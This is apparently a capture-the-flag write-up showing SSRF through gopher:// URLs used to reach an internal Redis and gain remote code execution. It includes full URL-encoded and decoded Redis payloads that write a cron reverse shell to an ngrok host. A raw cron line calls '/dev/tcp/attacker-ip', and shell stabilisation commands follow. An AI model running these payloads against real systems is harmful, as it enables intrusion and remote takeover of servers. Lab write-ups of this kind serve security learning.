





Here we need to exploit `SSRF` to achieve `RCE`, and then get the flag.

First, i saw there is `SSRF` in the `url` parameter, when giving `http://www.google.com` we're getting `google.com`.

So, I used Caido to watch all open ports in the internal network, the payload is `gopher://127.0.0.1:{port}/`.
I'm using `gopher` and not `http`, because we can send using this protocol much larger requests, and not only `http` requests.



As you can see, the open ports are:
*  port 22 (ssh):
> SSH-2.0-OpenSSH_7.4
Protocol mismatch.

* port 25 (smtp):
> 220 ssrf-box.localdomain ESMTP Postfix
502 5.5.2 Error: command not recognized
421 4.4.2 ssrf-box.localdomain Error: timeout exceeded

* port 80 (http):
> HTTP/1.1 400 Bad Request
Date: Wed, 20 Aug 2025 07:30:45 GMT
Server: Apache/2.4.6 (CentOS) PHP/5.4.16
Content-Length: 226
Connection: close
Content-Type: text/html; charset=iso-8859-1

* port 6379 (redis):
> 


This paper [SSRF to RCE via redis using gopher protocol](https://medium.com/@zoningxtr/ssrf-to-rce-via-redis-using-gopher-protocol-7409b1d97dcd) guide us what to do in such a case.

In this case, we want to use the `redis` to write reverse shell to the cron job, something like this:
```
FLUSHALL SET 1 "\n\n* * * * * bash -i >& /dev/tcp/attacker-ip/4444 0>&1\n\n" CONFIG SET dir /var/spool/cron/crontabs CONFIG SET dbfilename root SAVE
```

we use the `gopher` protocol that let us using raw `TCP` requests, and by this way we can send valid `redis` request.

In order to check that the `gopher` is working, we can send this payload:
```
gopher://127.0.0.1:6379/_PING
```
It might take time, but at the end we should get `PONG` back :)

we uses [Gopherus](https://github.com/tarunkant/Gopherus) to build our reverse shell:



```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2472%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/7.tcp.eu.ngrok.io/1234%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

After URL decoding, that's what we get:
```
gopher://127.0.0.1:6379/_*1
$8
flushall
*3
$3
set
$1
1
$72


*/1 * * * * bash -c "sh -i >& /dev/tcp/7.tcp.eu.ngrok.io/1234 0>&1"


*4
$6
config
$3
set
$3
dir
$16
/var/spool/cron/
*4
$6
config
$3
set
$10
dbfilename
$4
root
*1
$4
save
```
We use the `ngrok` tunnel, and set up a listener, so we need to change the port from `1234` to `10968`.



now, just send the payload:
```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2472%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/7.tcp.eu.ngrok.io/10968%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

Notice that if you send it using burp, you need to url encode it of course.

As you can see, we got connection!


First, i paste those commands:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 38 columns 116
```

Then, we run `ls`, find `flag-open-me.txt`, and read it using `cat flag-open-me.txt`



**Flag:** ***`SSRF_PwNiNg_v1@_GoPh3r_1s_$o_c00l!`***
